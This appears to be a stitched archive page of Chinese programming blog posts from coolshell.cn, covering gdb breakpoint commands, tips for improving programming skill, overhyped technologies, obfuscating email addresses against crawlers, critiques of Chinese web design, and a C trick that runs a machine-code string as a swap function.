- x/i  反汇编 – 通常，我们会使用 `x/10i $ip-20 来查看当前的汇编（$ip是指令寄存器）`
- x/s 以字符串输出

#### 八、command命令

有一些朋友问我如何自动化调试。这里向大家介绍command命令，简单的理解一下，其就是把一组gdb的命令打包，有点像字处理软件的“宏”。下面是一个示例：

(gdb) **break** func

Breakpoint 1 at 0x3475678: file test.c, line 12.

(gdb) command 1

Type commands **for** when breakpoint 1 is hit, one per line.

End with a line saying just "end".

\>print arg1

\>print arg2

\>print arg3

\>end

(gdb)

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=619963983&amp;adf=879820135&amp;pi=t.aa~a.425447425~i.65~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684220786&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3643.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xhsudpuMF4KgrGrvCyHjuTrv06fWgi8t4RHofBr5M_qWP8Jm9LhiYU5vUi0P-ZjSaNRQcNI&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226216104&amp;bpp=2&amp;bdt=5260&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C130x600%2C1005x124%2C704x280&amp;nras=7&amp;correlator=808380600289&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=508952530&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=4716&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1670&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071755%2C31074601%2C31074635%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvhRkjjRgw1C_jYldNIbtjhJPoU2qYZAJXt49v6qfkGUJEu4_tPXdV7Zyg05G25sahFJmQZhZYWsvuxNC1yYV7yX%2CABHeCvjmr8GUdmgVNjrcvIDGYa0c5RHxta6FmSR4_F1AHSQQ9pYXfw_2EeFoov_W4NPvJN9DIyHXtlhdn8V4Owf4sJbOuOCE0oQ2iJXfKjEm7Y0UlvGv3w%2CABHeCvgA1ZHLJLO94Eo_PURSiQ4NSyDcTRCv7BcZ4-T6WL5B5FbbxVf_N82JiFPxkHxRLNXsh-AzrSW4_Ndxu4aqjYvGpiEQ18znHbrWt-xDhtnq7YU&amp;pvsid=3849143358255498&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F31&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=4&amp;fsb=1&amp;xpc=HCHfEGetOS&amp;p=https%3A//coolshell.cn&amp;dtd=5491" data-google-container-id="a!3" data-google-query-id="COqYk823-f4CFf4PrQYdfSUG1Q" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

当我们的断点到达时，自动执行command中的三个命令，把func的三个参数值打出来。

（全文完）

# 提高编程技能最有效的方法

#####  [2011年02月21日 ](https://coolshell.cn/articles/3698.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [14 条评论](https://coolshell.cn/articles/3698.html#comments) 26,823 人阅读

StackExchange.com上有两个贴子（[贴子一](http://programmers.stackexchange.com/questions/3089/what-is-the-single-most-effective-thing-you-did-to-improve-your-programming-skill)，[贴子二](http://programmers.stackexchange.com/questions/44177/what-is-the-single-most-effective-thing-you-did-to-improve-your-programming-skill)），贴子名叫“What is the single most effective thing you did to improve your programming skills?” – 对你的编程技术提高最有效的一件事是什么？回复的人中给了很多很不错的建议，我把他们总结了一下，十条，相信一定会对你有用。（注意：顺序是我自己按我的个人经验排的）

- 和比自己聪明的能力比自己强的人工作。学习他们的代码，他们的做事方法，看一看那些人是怎么处理错误的。

- 总是倾听别人怎么说，无论那个的资历和职位是什么样的。

- 实践，实践，实践，总是不满意于一开始出来的事。

- 多问问自己，现在在写什么代码？为什么要这样写成这样？还有没有更好的方法？

- 学习多样的技术，多多比较他们，并一定要了解各种技术的优缺点。

- 总是问别人问好的问题。

- 多回头看看走过的路，做过的事，写过的程序，感觉一下他们有多烂。

- 多读读那些大师写的书。

- 不要总坐在电脑前编程序，多做做运动，多到户外走走，和非技术人多接触，向他们学习。

- 把你的想法说出去，看看别人怎么回应的。从别人的回应中学习。

除了这些，下面是我个人想给你的建议——


可能只能算精神，不能算方法。我以前也写过《[五个方法成为更好的程序员](https://coolshell.cn/articles/2606.html)》，《[十条不错的编程观点](https://coolshell.cn/articles/2424.html)》，还有《[优秀程序员的十个习惯](https://coolshell.cn/articles/222.html)》这几篇文章也能给你一些启发。

- **热情**。对编程充满热情。这种热情会导致强烈地专研精神，和努力的精神。**专研精神相当重要，它是畏难情绪的天敌**。

- **知道**。学习技术要“知其道，明其理”，而不仅仅只是了解知识。举例，为什么C++有“初始化例表”而Java却没有？为什么Java的没有多重继承？为会有了TCP还要UDP？对于一个事物，什么是好的，什么是不好的。不但要了解其表面，还要了解其思想。**只有了解原始的初衷和目的，你才能真正“知道”**。

- **犯错**。不犯错误永远没有经验，从自己的错误和别人的错误中学习，只有自己犯了错，才会真正明白。犯错不可怕，可怕的是不会总结只有真正的摸爬滚打过的人才是强人。**技能和经验总是用错误去换来的**。

- **回顾**。要多去回顾过去，看看历史上发生过的事。这样你才能明白事物的发展规律，从面才能了解未来的路。举例：单机 -> Client/Server -> 中间应用层 -> 多层结构 -> 分布式结构。 C -> C++ -> Java，等等，等等。**未来其实就在回顾过去之中**。

- **质疑**。质疑精神很重要。质疑通常会导致不同意见甚至反对意见。也许你会质疑错，也许你会被质疑，但是你的认知也会因为不同的观点而变得完整。有所同有所不同（“同”为同意及相同），**观点因为不同才能迸发出火花，事物也此而发展，世界因为不同而精彩**。

（全文完）

# 那些炒作过度的技术和概念

#####  [2011年01月28日 ](https://coolshell.cn/articles/3609.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [278 条评论](https://coolshell.cn/articles/3609.html#comments) 87,393 人阅读

[StackExchange.com](http://stackexchange.com/)上有一个[贴子](http://programmers.stackexchange.com/questions/38505/most-overhyped-software-engineering-technologies-and-concepts-of-the-last-20-year)在评论着最近20年来被炒作过度的技术，对于出现的结果，大多数赞同，也有一些不赞同。下面我从前15名挑了10个（Java的WORE我去掉了，TDD我也去掉了，因为我觉得他们应该没有炒作过度，而且都不错），按原贴的顺序罗列如下：（后面的一些评论是我加的，欢迎大家讨论）

#### Top 10 过度炒作的技术和概念

- **Unified Modeling Language (UML)** – UML是一个程序员交流想法的不错的工具，但是他离程序员真正需要的设计工具还差得很远，比如：设计是否符合需求、架构设计、数据流等等。只有为数不多的程序员使用这个工具交流想法，而没有用在具体工作中。

- **Sharepoint** – 现在N多的公司都在用微软的这个东西做公司内部的Intranet。不过安装和维护起来，代价相当的大。但是其市场做的很成功，不对技术上来说对技术人员来说，相当的蹩脚。Sharepoint的设计没有认真地分析过业务流程，仅仅是一个文档存储地。看上去我们似乎可以做任何的事，但是如果你要用其来管理你的项目和track你的项目问题，你会发现其是无比的难用。

- **eXtensible Mark-up Language (XML)** –  XML嘛，以前说过很多了（[XML1](https://coolshell.cn/articles/2504.html)，[ XML2](https://coolshell.cn/articles/3498.html)）我们用他来做和程序数据封装，用来做配置文件，用来做网络传输格式。我们的程序处理起XML来，又慢，又不经济，没有工具，几乎无法维护XML文件。XML用来做数据封包真是很不经济，Yaml和JSON那个不比它简单？用XML来做程序配置文件不知道是谁想出来的主意，相当的愚蠢，看看Unix/Linux下的配置文件，简单易读，相当容易维护。真是高科技啊。

- **SOAP, XML-RPC, WSDL 的 Web Services** – 这个东西前几年炒的很凶。所有人都相信，这是程序员的未来。可惜的，其中的复杂和不一致，相当的令人恶心。[SOAP的那个S居然还是Simple](https://coolshell.cn/articles/3585.html)！看来，扯上XML的都不会是什么好的东东。不过，个人认为，CORBA比他更恶。


- **CORBA** – 作为一个比其更恶的更过度炒作的COM技术的Linux/Unix下的补充技术，这个技术也好不到哪里去。相当的复杂，从理论上开始就是这样了。这是一个没有经过实践就搞出来的一个东西。然后开始炒作。

- **Cloud Computing** – 这是一个靠炒作出现的东西。这个东西也就是说，我们可以使用不同的调备，比如电脑，平板电脑，手机，移动设备随时随地做想做的事。Google的Chrome笔记本的广告展示了这项技术，但是，把工作结果放在云端的人会有多少呢。更多的人更喜欢的是去使用那些自己可以控制的电脑或平台。Google在这点上做的明显不如Amazon，像Amazon EC2平台，你可以在世界上任何一个角落随时随地的去启动你那台远程的系统。（***更新（2011/1/29）\***：解释一下，关于云计算，在写下这篇文章的时候我本来有点拿不定主意的，后来回顾了一下历史，如COM啊，ActiveX啊，EJB啊，当时感觉都是很强的东西，但是最终也只是被炒作的。云计算，我不知道未来怎么样，从今天来看，这项技术在今天存在炒作的情况——中移动云，阿里云，到处都是云，在云面前，神马都是浮云了。）

- **SOA – Service Oriented Architecture** – 这是一个没有人真正知道是什么玩意的概念。炒作了很多年，很多人都试图去了解它，但最后的结果是打个哈欠，看别的东西去了。现在没有人提了。中国一些银行在IBM的鼓动下搞了很多所谓的SOA应用，结果是系统很复杂，当然，也再离不开IBM了。

- **Software Industrial Process** – 软件开发中有很多所谓的工业界的流程，用这些流程好像可以控制质量。外包公司和中国的本土公司很喜欢这些东西，比如ISO和CMMi，这些流程不能说不好，也有好的地方，尤其是对那些不会思考只要跟从的Worker来说。这些工业界流程中炒作过度的是，那些所谓的使用这些流程可以预测项目周期，质量控制，以前需求开发和管理等东西。其让流程上升到了一种神学的可预言的地步，同样也上升到了政治的地步。因为，这些流程中都必然会有SQA 的Audit的流程，还有统计和报告的流程，这些统统不是软件开发的流程，但是的确是相当的政治。使用这些工业届标准流程的公司，通常都是一些创造性有问题的公司。

- **Agile Software Development – 敏捷开发**。首先，我承认其中的很多实践相当有效，在理论上也不错，还有很多不错方法的。不过，还是有炒作的成分（**下面的言论，我等着被骂**）对我来说，在中国，“敏捷开发”的炒作简直就像是一个电视购物，ThoughtWorks中国各种咨询师们软件开发经验其实并不丰富，准确来说，他们有的是咨询经验，而没有具体项目实施经验（有的咨询师甚至都没有写过一行代码就去学教人怎么编程和开发软件了），和他们沟通起来能够感到他们对敏捷很亢奋，而且是唯敏捷主义，就差打出Once Process，One Agile的口号了，他们信仰敏捷流程的已经接近宗教信仰，他们的精神世界很朝鲜。因为，无论你和他们的咨询师谈什么，他们只说敏捷，从来不会分析一下，项目的特性是什么？开发这个项目的人的风格是什么？客户的特性是什么？有没有关心软件的stakeholder们（如：程序员，测试人员，客户，管理人员）是怎么想的？而XP和SCRUM也就成了Push工程师最强大的工具。**流程这个东西，应该是项目组自发出来的东西，而不是被 灌输，被教条使用的东西。不同的团队、不同的项目、不同的人，不同的风格就是不同的流程，只有去使用适合自己的流程才是最好的流程**。**打个比方，足球队中，巴西队玩的是个人艺术足球，德国队玩的是整体和纪律性足球，意大利玩的是防守型足球，但是他们都有夺世界杯冠军的实力，如果你硬要让巴西队去整德国队或是意大利队的风格，那就悲剧了**。很显然，ThoughtWorks很像把全中国的软件公司都整成Agile的，这注定了其在中国是杯具的，也只能争取到那些不知所措的公司和项目，没有合适的项目，也只有靠各种炒作（比如整一些大会，搞一些宣传）。他们总是觉得中国的用户和程序员需要去用时间不停地教育，但是，他们从来没有想想自己的原因 — 靠教育和灌输是永远赢不了的。**我给他们的个人建议是，不要以为世界就像你所想像的那样，学会尊重程序员和项目还有很多非技术的东西，多听听程序员和客户怎么说，多分析一下项目的特质，从实际情况出发，而不是自己涛涛不绝地\**向大家\**灌输自己的理论**。

- **Object-Oriented Programming (OOP**) – 不多说了，以前本站说过了，所有的一切都在[面向对象是个骗局](https://coolshell.cn/articles/3036.html)一文中。不过有一点我想告诉大家，面向对象的Design Pattern真是被滥用了，Design Pattern教你的是两件事，1）怎么去化繁为简，2）怎么能让对象的耦合性降低。而不是一个公式让你的套，但，更多的程序员则学会了“[流行的设计模式编程](https://coolshell.cn/articles/2058.html)”。

#### 附：下构面是我拿不定是否是过度炒作的技术

**Write Once Run Anywhere** – 这个有点让我不解，不知道为什么会那么靠前。这是Java的口号，我觉得Java在跨平台方面还是成功的，没有过度炒作啊。用虚拟机的确是做到了这一点，对于那些需要有不同的硬件和操作系统平台并不断升级和更换它们的公司来说，这的确是个很不错的解决平台依赖性的方案。我个感觉这个技术并没有炒作过头，至少在Java这边是这样的。与其说这个，还不如说EJB，这才是炒作过度的技术。

[更新 2011/02/13]下面的回复，在我形成这篇文章的时候我没有想过，经ming同学一说，我觉得似乎有些道理。

> **[ming](https://coolshell.cn/articles/3609.html/comment-page-1#comment-29425) :**
>
> 我从一开始就觉得java的“Write Once Run Anywhere”是彻头彻尾的炒作。
>
> 想想，所谓的跨平台无非就是依靠虚拟机、解释器之类的东西实现的，那么，哪个脚本语言不是依靠解释器呢？古老的perl已经跨平台了。当然，跨平台的语言还有很多。但是，只有java炒作这个概念。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=2819459725&amp;adf=513314262&amp;pi=t.aa~a.425447425~i.33~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225519&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3609.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xtQtLbXcgUueJF3i6zBweNUu0AWB9qMQEK8fuoexkeIg-S2LqyuCNAOINcvSzwjUHaD9ICE&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226293212&amp;bpp=6&amp;bdt=5278&amp;idt=6&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C215x600%2C728x90&amp;nras=6&amp;correlator=5237407662299&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1673865369&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3939&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=983&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074469%2C31074635%2C44788441%2C44792088%2C44769661&amp;oid=2&amp;psts=ABHeCvjeXC8QcNL0rm7YmE-KYybgVsa5HGzM-a4dRoY5w0HGAY7gOstkL5ks8oR8SGSLLQzT7RQciEx1hufV1bAFKK8z&amp;pvsid=2865881702799703&amp;tmod=182273927&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F32&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=3&amp;fsb=1&amp;xpc=mR5Ozf83gZ&amp;p=https%3A//coolshell.cn&amp;dtd=25891" data-google-container-id="a!3" data-google-query-id="CK_5m_y3-f4CFRToYgodgrEP1w" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

**Test Driven Design (TDD)** – 从测试案例开始写程序这可能是很多程序员都不习惯的方法。其实这是一种比较好的编程方法，保证了代码怎么改动都不会break其它没有改动的代码，代码可以在一种持续集成中保证质量。但是，我们需要知道TDD的一些副作用（在[十条不错的编程观点](https://coolshell.cn/articles/2424.html)里也提到过TDD的弊端）：1）TDD可能会让程序员敷衍了事，以为test case 没有错就正确了。2）TDD可能会让你忽略了软件设计和架构以及程序的扩展性和重用性。T**DD只是一种方法，并不是程序的核心**。当然，TDD近几年的炒作也有点过头，已经出现了“TDD是一种Design方法”等“神乎其技”的论调，我对此表示质疑中。

[更新 2011/02/13] 关于TDD，请参看我另一篇文章《[TDD并不是看上去的那么美](https://coolshell.cn/articles/3649.html)》

（全文完）

# 如何“加密”你的EMAIL地址

#####  [2011年01月27日 ](https://coolshell.cn/articles/3595.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [13 条评论](https://coolshell.cn/articles/3595.html#comments) 12,094 人阅读

现在在网上要小心，无论是[保护好你的用户名和帐号](https://coolshell.cn/articles/2428.html)，还是我们的电子邮件地址。在网上有很多爬虫程序专爬我们的电子邮件地址，一量被爬中了，那么你的邮箱里就是一堆又一堆的垃圾邮件，就好像我的haoel(at)hotmail.com一样，在7、8年前，每天几千封的垃圾邮件。现在hotmail的垃圾邮件过滤得好一些了，不过也有每天40封左右的垃圾邮件。但是我们在自己的网页上又需要发布自己的email地址。所以我们需要搞乱我们的邮件地址，就像那种非常规的[搞乱代码一样](https://coolshell.cn/articles/933.html)。不过，我们还需要能认人读的出来。

一般来说，在网上现在很普遍的做法是——

- 1）用图片，可以用PHP动态生成那个验证码式的。
- 2）把@变成at，把点变成dot，如 haoel(at)hotmail(dot)com之类的。
- 3）把a变成@，写成haoel@hotm@mail.com

不过这些还是能被爬到，用图片的方法不利于用户拷贝粘贴。下面介绍几种方法：

#### 第一种：使用CSS样式

**反转字序**

span.codedirection { unicode-bidi:bidi-override; direction: rtl; }

<p><span>moc.liamtoh@leoah</span></p>


**加入些不显示的字符串**

p span.hide { display:none; }

<p>foo@bar<span class="hide">null</span>.baz</p>

#### 第二种：使用Javascript

最为简单的方法是：

[javascript]document.write("haoel" + "@" + "hotmail" + "." + "com");[/javascript]

或是：

[javascript]<script type="text/javascript">
<!–
var string1 = "@";
var string2 = "haoel";
var string3 = "hotmail.com";
var string4 = string2 + string1 + string3;
document.write("<a href=" + "mail" + "to:" + string2 + string1 + string3 + ">" + string4 + "</a>");
//–>
</script>[/javascript]

不过更为强大的是使用ROT13加密，这里有一个[ROT13的在线工具](http://rot13.de/)，或是使用PHP的ROT13的函数[str_rot13](http://ch2.php.net/str_rot13)。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3137022676&amp;adf=2874915782&amp;pi=t.aa~a.425447425~i.33~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684216920&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F3595.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xvoy05UjsMo6kODUigjy4R2iy-ZkbqfrR9O9QP5a8M1RI0gxwkd4KAXeuYC0ocwsNPMTsUo&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684226345935&amp;bpp=1&amp;bdt=4120&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=336011409254&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=2102859799&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2138&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071756%2C31074545%2C31074635%2C44788441%2C44790154&amp;oid=2&amp;psts=ABHeCvhYj4Kf02umNobnBNr7seoMGyGJInN9xyC-ihMEz0VrvhYWUUtlC7-IxPkBoqw4ZltRRJYsqJFILyN3R8YHHTnox7Y&amp;pvsid=2597098839625313&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F32&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=qDnfnFDGvc&amp;p=https%3A//coolshell.cn&amp;dtd=935" data-google-container-id="a!3" data-google-query-id="COXf84i4-f4CFUWoZAodxlwO_w" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

[javascript]<script type=”text/javascript”>
document.write(“<n uers=\"znvygb:unbry@ubgznvy.pbz\">”.replace(/[a-zA-Z]/g,
function(c){return String.fromCharCode((c<=”Z”?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26);}));
</script>陈皓的电子邮件</a>[/javascript]

这些方法还是很有效果的。

# 为什么中国的网页设计那么烂？

#####  [2011年01月28日 ](https://coolshell.cn/articles/3605.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [139 条评论](https://coolshell.cn/articles/3605.html#comments) 55,720 人阅读

[Nick Johnson](http://thinkvitamin.com/author/nickjohnson/)，一个有12年经验的Web设计师在它的blog里写下了“[Why is Chinese Web Design So Bad](http://thinkvitamin.com/design/why-is-chinese-web-design-so-bad/)”，新浪，人人，百度，阿里巴巴，腾讯榜上有名。**其中的观点相当的好，希望所有的中国人都读一下。**我不全文翻译了，只是给大家看一些摘要。（保证不会像《环球时报》一样）

——————————

作者2005年的夏天来到中国，他说，他注意到了中国那复杂的文化和西方的有多么的不同。比如，语言，身体特征，政府的执政理念，等等，但是，有一些地方确是差别很少的，比如：幽默的sense，还有对艺术的表现形式的兴趣。很快，因为职业，他发现在中国的网站设计上完全没有引吸到他。于是他开始让身边的中国朋友尽可能多的给他推荐中国的网站，他觉得这个可以对他学习Web Design有帮助。

当他在评论起新浪，人人，百度，阿里巴巴，腾讯的时候，他说，百度和其它的不同，因为百度悍然地公开抄袭Google的Web Design（blatantly copied their design from Google），而人人则是很明显地抄袭facebook（clearly copied their design from Facebook）。而其它的多数的中国网站看上去有很多很多滑稽可笑的文本，一些网站在滥用图片，一些网站图片又不够。他感到很困扰，这样的网站都能被接受？这么多的东西，网民怎么可能看得过来啊？中国人怎么可能容忍这些。（注：他不知道我们中国人能承受的比这更多）


他说，更夸张的是，中国的网站上会有很多的动画，弹窗，幻灯片，感觉中国的设计师不是在设计，是在实践，还是实践那些很坏的设计理念，而些东西都是西方的设计师努力努力避免的。作者感到回到了1995年。

作者说，作为一个傲慢自大的西方人，他的第一反应是——“哦，这是一个发展中国家，简单来说，还不能赶上我们”，当然，这有可能，因为Web Design和艺术表现也有个发展过程的，当**前的中国也许正处于“结构设计”时期**。作者个人认为的另一个可能是，中国的Web设计者们培养环境的问题——**中国的教育培养是说教和影响的方式，而不是持续的自然的艺术的进化**。艺术进化的根是文化培养，但是更应该是自然的，自由地进化。

作者在说他为什么这么认为的原因时，提到了他花了些时间去了下中国的大学看看这些大学在教什么。他发现，**中国的学生只是去记忆东西而不是真正的理解**。**他们从来不花时间去思考，而只是贪婪地去获取更多的信息**。这和西方的教育完全的不同。（注：在这种教育体系下产生了像人人同抄袭和像新浪一样的满是信息的网页）作者继续说，在西方，他们一般用的都是“启发式”的东西，需要给人一种“啊，这样啊”的瞬间，这叫交互。而中国则不是，他们是先展示数据。中国的网站基本上是数据查询网站，就像把把信息注入到大脑中一样，没有过多的交互。

另一个中国的文化是——这个民族真是很不直接，不像美国，在中国如果有人一针见血的表达观点是很不舒服的事。和中国人谈话需要拐很多弯。然而，对于西方人来说，模糊的表达才是让人很不舒服的。但是中国人都很接受这样的沟通方式。这也是中国网页设计成这个样子的一个原因。

——————————————

我觉得作者的话说的很中肯。然而，作者的这篇博文后面很多回复，你都可以去看看。那些回复中，我看到的是那些“不服输”的中国人（这是不是我们从小那种“争第一”的教育培养出来人呢？）。

看完以后，我觉得让我思考的已经不是网页设计了，而是我们的教育和文化。

**你呢？是在反思呢，还是准备去作者的 blog上debate呢？**

# C语言函数实现的另类方法

#####  [2011年01月26日 ](https://coolshell.cn/articles/3572.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [21 条评论](https://coolshell.cn/articles/3572.html#comments) 12,596 人阅读

在前面看过那个[BT的Javascript程序](https://coolshell.cn/articles/3540.html)后，我们来看一个C语言的，相信大家还记得[输出从1到1000的数](https://coolshell.cn/articles/3445.html)最后的那个示例，本站还有很多这样的示例，如：[变态的hello word](https://coolshell.cn/articles/914.html)，[如何教新手编程](https://coolshell.cn/articles/2420.html)，[还有恐怖的C++](https://coolshell.cn/articles/1724.html)，在下面这个示例面前，神马都是浮云。

下面这个示例向你展示了如何写一个swap()函数（把两个值交换），这段代码在我的Linux下的 gcc v4.1.1下可以正确编译通过，连一个Warning都没有，而且可以正确工作。我能说什么？！C语言并不疯狂，疯狂的是程序员。

**#include <stdio.h>**

**void**(*swap)() = (**void**(*)()) "\x8b\x44\x24\x04\x8b\x5c\x24\x08\x8b\x00\x8b\x1b\x31\xc3\x31\xd8\x31\xc3\x8b\x4c\x24\x04\x89\x01\x8b\x4c\x24\x08\x89\x19\xc3";

**int** main(){ // works on GCC 3+4

​        **int** a = 37, b = 13;

​        swap(&a, &b);

​        printf("%d %d\n",a,b);

}

